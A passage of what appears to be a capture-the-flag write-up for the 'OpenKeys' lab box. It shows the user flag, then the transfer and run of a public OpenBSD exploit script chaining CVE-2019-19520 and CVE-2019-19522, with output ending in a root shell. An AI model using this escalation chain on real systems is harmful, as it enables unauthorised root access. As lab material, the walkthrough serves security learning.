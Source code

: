```
uid=1001(jennifer) gid=1001(jennifer) groups=1001(jennifer), 0(wheel)
openkeys$ ls
user.txt
openkeys$ cat user.txt                                                                                                                                                                                            
36ab21239a15c537bde90626891d2b10
```
## OpenBSD authroot Priviledge Esclation

We use 2 of the privilege escalation vulnerabilities, we saw in the blogpost
CVE-2019-19520 allows us to gain access to the auth user group via xlock which is used by CVE-2019-19522 to gain root access
I found this nice bash script on github that does all this for us

> [OpenBSD authroot](https://github.com/bcoles/local-exploits/blob/master/CVE-2019-19520/openbsd-authroot)

## Root flag

Transfer the exploit using scp	
```
root@kali:~# scp -i jennifer.key ./privEsc.sh jennifer@10.10.10.199:/tmp
privEsc.sh                    100% 4087    13.7KB/s   00:00
```

when prompted, put EGG LARD GROW HOG DRAG LAIN as password
	
```
openkeys$ ./privEsc.sh 
openbsd-authroot (CVE-2019-19520 / CVE-2019-19522)
[*] checking system ...
[*] system supports S/Key authentication
[*] id: uid=1001(jennifer) gid=1001(jennifer) groups=1001(jennifer), 0(wheel)
[*] compiling ...
[*] running Xvfb ...
[*] testing for CVE-2019-19520 ...
[+] success! we have auth group permissions

WARNING: THIS EXPLOIT WILL DELETE KEYS. YOU HAVE 5 SECONDS TO CANCEL (CTRL+C).

[*] trying CVE-2019-19522 (S/Key) ...
Your password is: EGG LARD GROW HOG DRAG LAIN
otp-md5 99 obsd91335
S/Key Password:

openkeys# id                                                                                            
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
openkeys# ls -al
total 52
drwx------   4 root  wheel   512 Jun 24 01:30 .
drwxr-xr-x  13 root  wheel   512 Jul 28 09:17 ..
-rw-r--r--   1 root  wheel    87 Oct 12  2019 .Xdefaults
drwxr-xr-x   3 root  wheel   512 Jan 11  2020 .composer
-rw-r--r--   1 root  wheel   578 Oct 12  2019 .cshrc
-rw-r--r--   1 root  wheel    94 Oct 12  2019 .cvsrc
-rw-r--r--   1 root  wheel    10 Jan 11  2020 .forward
-rw-r--r--   1 root  wheel   328 Oct 12  2019 .login
-rw-r--r--   1 root  wheel   468 Oct 12  2019 .profile
drwx------   2 root  wheel   512 Jan 11  2020 .ssh
-rw-------   1 root  wheel  1362 Jun 23 12:35 .viminfo
-rw-r--r--   1 root  wheel   381 Jul 25 20:54 dead.letter
```